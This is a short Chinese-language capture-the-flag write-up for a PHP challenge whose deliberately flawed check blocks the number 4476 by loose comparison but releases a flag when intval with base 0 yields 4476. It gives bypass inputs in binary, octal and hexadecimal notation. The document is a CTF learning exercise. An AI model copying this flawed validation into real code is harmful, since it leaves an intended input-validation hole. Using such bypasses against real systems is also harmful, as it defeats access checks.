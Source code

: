 ```
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: Firebasky
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-18 16:29:30
# @link: https://ctfer.com

*/

include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==4476){
        die("no no no!");
    }
    if(intval($num,0)==4476){
        echo $flag;
    }else{
        echo intval($num,0);
    }
} 
```

分析源码



get传参num

弱类型比较，如果为4476，则报错

利用intval函数进行弱类型比较，如果为4476则输出flag



同web 90的intval简单介绍

其中intval的$base设置为0，则其会根据开始的数字使用不同的进制



### 第一种

进制绕过

二进制

```
?num=0b1000101111100
```

![image-20250408132239144](./assets/image-20250408132239144.png)



八进制

```
?num=010574
```

![image-20250408132254428](./assets/image-20250408132254428.png)



十六进制

```
?num=0x117c
```

![image-20250408132309877](./assets/image-20250408132309877.png)
